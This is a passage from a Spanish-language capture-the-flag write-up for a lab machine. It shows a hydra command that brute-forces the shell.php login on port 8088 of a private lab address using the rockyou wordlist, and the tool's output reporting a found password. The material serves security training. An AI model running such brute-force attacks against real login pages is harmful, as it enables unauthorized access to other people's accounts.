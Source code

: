 <p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura6.png">
</p>

Tampoco podemos obtener la versión que se esté usando de **Webmin**.

Lo que nos queda por hacer, es intentar aplicar fuerza bruta a ambos logins.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="fuerzaBruta">Aplicando Fuerza Bruta a Login de Página shell.php</h2>

Primero, aplicaremos la fuerza bruta en el login del **puerto 8088**.

Como usuario utilizaremos **campana**, ya que es una de las pistas que tenemos del segundo mensaje que decodificamos.

Y esta vez, utilizaremos el mensaje de error como un filtro, para que busque una contraseña que no obtenga ese error:
```bash
hydra -l 'campana' -P /usr/share/wordlists/rockyou.txt 192.168.10.200 -s 8088 http-form-post '/shell.php:username=^USER^&password=^PASS^:F=Username or password invalid' -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-17 15:05:56
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://192.168.10.200:8088/shell.php:username=^USER^&password=^PASS^:F=Username or password invalid
[8088][http-post-form] host: 192.168.10.200   login: campana   password: *****
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-17 15:06:09
```
Excelente, encontramos la contraseña.

